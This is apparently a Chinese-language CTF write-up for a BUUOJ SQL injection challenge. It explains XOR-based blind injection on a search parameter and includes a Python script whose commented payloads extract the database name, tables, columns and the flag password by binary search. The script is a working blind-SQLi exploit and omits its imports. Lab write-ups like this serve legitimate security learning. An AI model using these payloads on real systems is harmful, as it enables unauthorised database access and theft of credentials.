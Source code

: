 ```yaml
---
Author: Coder-LYQ
Date: 2020-12-31

---
```


## 思路

1. 打开网页观察页面内容如下，可以看到有一个登录框，还有一个1~5的列表可以点击。

   说明本题可以从两个角度进行sql注入。

   登录的链接为：check.php?username=123&password=123

   点击数字的链接为：search.php?id=1

<img src="images/image-20201231143221010.png" alt="image-20201231143221010" style="zoom: 25%;" />

2. 先从最常规的万能密码尝试

3. 对点击数字的链接进行尝试（而且题目中也提示了“选择正确神秘代码即可获得flag”）

   search.php?id=1^1^1和search.php?id=1结果一样，说明我们可以尝试使用**异或**进行注入，使用下面的脚本进行测试：

   > 当我们在尝试SQL注入时,发现union,and被完全过滤掉了,就可以考虑使用异或注入
   >
   > 异或运算规则：
   >
   > 1^1=0 0^0=0 0^1=1
   >
   > 1^1^1=1  1^1^0=0

   ```python
   # -*- coding: utf-8 -*-
   url = 'http://70f6bc6d-6862-4615-8b83-fb7267cc42fb.node3.buuoj.cn/search.php?id='
   i = 0
   flag = ''
   while True:
       i += 1
       # 从可打印字符开始
       begin = 32
       end = 126
       tmp = (begin + end) // 2
       while begin < end:
           print(begin, tmp, end)
           time.sleep(0.1)
           # 爆数据库
           # geek
           # payload = "1^(ascii(substr(database(),%d,1))>%d)^1" % (i, tmp)
           # 爆表
           # F1naI1y,Flaaaaag
           # payload = "1^(ascii(substr((select(GROUP_CONCAT(TABLE_NAME))from(information_schema.tables)where(TABLE_SCHEMA=database())),%d,1))>%d)^1" % (i, tmp)
           # 爆字段
           # payload = "1^(ascii(substr((select(GROUP_CONCAT(COLUMN_NAME))from(information_schema.COLUMNS)where(TABLE_NAME='F1naI1y')),%d,1))>%d)^1" % (i, tmp)
           # 爆flag 要跑很久
           # payload = "1^(ascii(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)^1" % (i, tmp)
           # 爆flag 很快
           payload = "1^(ascii(substr((select(password)from(F1naI1y)where(username='flag')),%d,1))>%d)^1" % (i, tmp)
           # 错误示例
           # payload = "1^(ascii(substr((select(GROUP_CONCAT(fl4gawsl))from(Flaaaaag)),%d,1))>%d)^1" % (i, tmp)
   
           r = requests.get(url+payload)
           if 'Click' in r.text:
               begin = tmp + 1
               tmp = (begin + end) // 2
           else:
               end = tmp
               tmp = (begin + end) // 2
   
       flag += chr(tmp)
       print(flag)
       if begin == 32:
           break
   
   ```

   

## 总结

此题可以结合 [GYCTF2020]Ezsqli 练习

